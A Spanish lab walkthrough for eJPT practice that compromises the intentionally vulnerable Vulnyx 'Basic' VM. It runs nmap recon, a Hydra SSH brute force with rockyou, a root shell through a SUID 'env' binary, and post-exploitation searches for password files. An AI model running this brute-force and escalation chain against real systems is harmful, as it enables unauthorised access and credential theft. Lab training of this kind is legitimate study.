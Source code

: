  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4 -oN escaneo
```
- **`-p-`**: Indicamos que se deben escanear **todos los puertos** (desde el 1 hasta el 65535).
- **`-sS`**: Realiza un **escaneo SYN**, que es más sigiloso que un escaneo TCP porque no establece una conexión completa.
- **`-sC`**: Usamos los **scripts por defecto** de Nmap
- **`-sV`**: Realizamos una **detección de versiones** de los servicios que estén ejecutándose en los puertos abiertos.
- **`--open`**: Solo muestra los **puertos abiertos**
- **`--min-rate=5000`**: Para establecer una tasa mínima de **5000 paquetes por segundo**.
- **`-vvv`**: Nos muestra más detalles en tiempo real durante el escaneo.
- **`-n`**: Desactiva la resolución  DNS. Es decir, no intentará convertir las direcciones IP en nombres de dominio.
- **`-Pn`**: Indica que no se debe realizar un **ping previo** para verificar si el host está activo.
- **`-oN escaneo`**: Guarda el resultado del escaneo en un archivo llamado **`escaneo`** en formato normal (texto plano).

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:
- Ver servicios corriendo:
```bash
ps aux
```

- Identificar puertos abiertos:
```bash
netstat -tulnp
```

- Ver conexiones activas:
```bash
ss -tuln
```

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- **Buscar otros dispositivos en la red:** Si tienes acceso a herramientas como `nmap`, puedes escanear otros dispositivos en la red:
```bash
nmap -sP 192.168.1.0/24
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "*password*" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
